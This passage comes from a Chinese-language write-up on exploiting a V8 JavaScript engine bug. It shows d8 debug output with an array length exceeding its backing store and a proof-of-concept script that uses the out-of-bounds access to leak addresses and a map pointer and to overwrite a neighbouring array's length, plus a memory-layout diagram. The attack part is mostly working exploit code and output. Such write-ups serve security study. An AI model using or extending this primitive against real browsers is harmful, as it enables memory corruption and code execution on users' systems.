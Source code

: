 运行后可以发现长度为 37 的数组的元素容量却只有 35：

```c
d8>  console.log(victim.length);
37
d8> %DebugPrint(victim);
DebugPrint: 0x37dc081486d9: [JSArray]
 - map: 0x37dc08303905 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x37dc082cb351 <JSArray[0]>
 - elements: 0x37dc08149dd5 <FixedDoubleArray[35]> [PACKED_DOUBLE_ELEMENTS]
 - length: 37
 - properties: 0x37dc080426e5 <FixedArray[0]> {
    0x37dc08044651: [String] in ReadOnlySpace: #length: 0x37dc08242161 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x37dc08149dd5 <FixedDoubleArray[35]>
```

若继续向数组里 push 浮点数，则会触发 OOM crash，因此最多只能获得 16 bytes 的 oob，故这里可以结合调试构造更强的 POC：

```javascript
let victim = [1.1];
victim.push(1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9, 10.1, 11.11, 12.12);

let evil = new Array(1).fill(4.3);
let evil_elem_addr = helper.ftoil(victim[0x24]);
let double_map = helper.ftoil(victim[0x23]);
let double_proto = helper.ftoih(victim[0x23]);
victim[0x24] = helper.i64tof64((0x1000n << 32n) | BigInt(evil_elem_addr));
console.log(evil.length);
```

即在原 OOB array 的后面再构造一个 Double Array，注意在声明时采用了 `new Array` 的写法，是因为这样可以保证其 elements 在数组对象的内存之后，于是形成了如下内存布局：

```javascript
        +---------------------------+
victim: |   proto    |    map       |
        |---------------------------|
        | size (2*sz)|    elem      |------+
        |---------------------------|      |
        |          ...              |      |
        |          ...              |      |
        |---------------------------|      |
elem:   |   size     |    elem map  | <----+
        |---------------------------|
        |     double data           |
        |---------------------------|
        |          ...              |
        |---------------------------|
        |     double data           |
        |---------------------------|
evil:   |   proto    |    map       | // oob
        |---------------------------|
        |   size     |    elem      | // oob
        +---------------------------+
```
